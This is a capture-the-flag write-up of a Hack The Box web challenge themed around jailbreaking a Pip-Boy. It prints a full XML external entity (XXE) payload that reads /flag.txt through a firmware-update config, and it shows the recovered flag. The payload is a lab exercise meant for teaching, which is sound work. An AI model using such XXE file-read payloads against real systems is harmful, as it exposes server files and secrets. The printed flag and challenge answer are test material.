


## Jailbreak (web)

> The crew secures an experimental Pip-Boy from a black market merchant, recognizing its potential to unlock the heavily guarded bunker of Vault 79. Back at their hideout, the hackers and engineers collaborate to jailbreak the device, working meticulously to bypass its sophisticated biometric locks. Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt

The docker spawn doesn't show anything interesting at first. From the question we need to use a "custom firmware". 



Navigating to "ROM" gives us some config file written in XML for a Firmware Update. 

```text
Using custom firmware and a series of precise modifications, can you bring the device to full operational status in order to pair it with the vault door's access port. The flag is located in /flag.txt
```

This is where we need to send our payload.

```xml collapse={9-30} showLineNumbers
<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7</Version> 
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

The first thing that came into my mind was an **XML external entity (XXE) injection**. You can read about it from [PortSwigger's websec academy's XXE injection lesson](https://portswigger.net/web-security/xxe).

I quickly crafter my payload and placed my entity `flag` in line `7`. Then submitted it.

```xml ins={1-4} ins="&flag;" collapse={9-30} showLineNumbers
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY flag SYSTEM "file:///flag.txt">
]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>1.33.7 &flag;</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

Lo and behold, it gave me the flag! This was by far the easiest entry in HTB's Try Out web challenges.



```
HTB{b1om3tric_l0cks_4nd_fl1cker1ng_l1ghts_6628232b759c9d70416eec896d0421f9}
```